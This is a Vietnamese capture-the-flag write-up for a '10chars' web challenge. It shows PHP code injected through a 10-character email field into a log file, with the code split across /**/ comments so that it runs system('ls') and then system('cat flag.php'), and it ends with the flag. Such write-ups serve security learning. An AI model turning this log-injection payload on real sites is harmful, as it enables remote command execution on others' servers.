 Chúng ta truy cập vào trang http://10chars.scoreboard.ns01.info/index.php?page=login.php và có giao diện:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/login.PNG)

Đăng ký user, nhận thấy các trường đều bị giới hạn lượng ký tự là 10. Đăng nhập vào ta có:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/home.PNG)

Chức năng log:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/log.PNG)

và chức năng log sau khi chúng ta thử đổi thay đổi thông tin cá nhân (email):

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/alt-log.PNG)

Có thể thấy khi chúng ta thay đổi email, thông tin sẽ được log lại vào 1 file log nào đó, sau đó chức năng log sẽ đọc file này rồi in ra màn hình. Điều này dẫn tới ý tưởng inject code php để chạy system command. Tuy nhiên 1 email chỉ có 10 ký tự, và log kèm email còn có 1 string khác, nên ta sẽ bypass việc này bằng cách chèn comment /**/ giữa các dòng.

Gửi các dòng như sau:
&lt;?php /*
*/$a=/*
*/'ls';/*
*/system/*
*/($a)/*
*/;?&gt;
với parameter là email, vào log ta sẽ được:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/ls.PNG)

Tương tự như trên, gửi các dòng
&lt;?php /*
*/$a=/*
*/'cat '/*
*/.'fla'/*
*/.'g.p'/*
*/.'hp';/*
*/system/*
*/($a)/*
*/;?&gt;
để đọc flag.php sẽ được:

![alt text](https://raw.githubusercontent.com/Alic3Margatroid/ctfsv/master/10char/flag.PNG)

flag: Flag{_0nLy_10Ch4RAct3r_}
